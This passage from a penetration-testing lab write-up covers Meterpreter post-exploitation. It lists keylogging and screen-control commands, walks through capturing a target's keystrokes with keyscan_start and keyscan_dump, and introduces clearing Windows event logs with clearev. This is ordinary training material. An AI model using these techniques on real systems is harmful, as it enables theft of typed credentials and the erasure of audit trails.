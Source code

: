 ```bash
    keyevent       Send key events
    keyscan_dump   Dump the keystroke buffer
    keyscan_start  Start capturing keystrokes
    keyscan_stop   Stop capturing keystrokes
    mouse          Send mouse events
    screenshare    Watch the remote user's desktop in real time
    screenshot     Grab a screenshot of the interactive desktop
    setdesktop     Change the meterpreters current desktop
    uictl          Control some of the user interface components
```

- Open a `Notepad` session on the Target machine.
- On the Attacker machine, start the keystroke capture

```bash
keyscan_start
	Starting the keystroke sniffer ...
```

- Input some text into the target machine
- Back on the attacker machine, capture the entered data

```bash
keyscan_dump
```

![keyscan_dump](.gitbook/assets/image-20230419231942667.png)

- Stop the sniffer

```bash
keyscan_stop
```

------

## Lab 9 - Clearing Event Logs

> 🔬 Same as Lab 8 - [Windows: File and Keylogging](https://attackdefense.com/challengedetails?cid=1955)
>
> - Target IP: `10.2.26.66`
> - Metasploit **clearev** `Meterpreter` option
